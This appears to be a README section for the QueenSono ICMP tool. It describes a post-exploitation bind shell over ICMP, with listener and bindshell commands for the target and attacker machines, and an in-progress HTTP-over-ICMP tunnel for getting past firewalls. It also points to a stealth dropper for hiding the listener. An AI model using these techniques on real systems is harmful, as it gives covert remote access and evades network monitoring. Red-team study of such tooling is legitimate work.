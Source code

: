 # Hack

Some fun things using `QueenSono`

## Bind Shell
<h5 align="center">In <code>QueenSono/hack/bindshell</code></h5>

<p align="center"><i> It is a "bind shell" through ICMP so it is quite ordinary if it takes time or if all commands are not well treated</i></p>

### Use case
***In Post exploitation phase:*** Sometimes, and for the post exploitation phase it is more suited, you need a bind shell. if ICMP is less monitored than other protocol (eg TCP), having a bind shell trough `QueenSono` is more stealthy.

#### How to do it?

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-bindshell.gif)
On both machines you need to have `qssender`and `qsreceiver`

*> On the target machine:* Launch your listener
```
./listener.sh <ip_listening_for_icmp>
```

*> On the attacker machine:* Bind to the target shell
```
./bindshell.sh <ip_target> <ip_listening_for_icmp>
```

*Product placement: To be stealthly, you `listener` should use a dropper and hide its presence. You could find a stealth dropper example in [curlNExec](https://github.com/ariary/curlNexec) repo. Should I adapt it to use ICMP ? 🤔*

## HTTP over ICMP tunneling

🚧🚧🚧🚧**WIP**🚧🚧🚧🚧

<h5 align="center">In <code>QueenSono/hack/tunneling</code></h5>

<p align="center"><i> Access internet but tunneling HTTP request with ICMP</i></p>

### Use case
* Access internet but firewall rules block http traffic but allow icmp 
* If you want to hide your http tracks 

#### How to do it?
```
need net_packet_raw cap

        ┌───────────┐         ┌───────────────┐           ┌────────────┐
        │           │         │               │           │            │
        │  qscurl   └─────────►    qsproxy    └───────────►World  wide │
        │           ◄─────────┐               ◄───────────┐    web     │
        └───────────┘         └───────────────┘           │            │
                                                          └────────────┘

                             need internet access
```
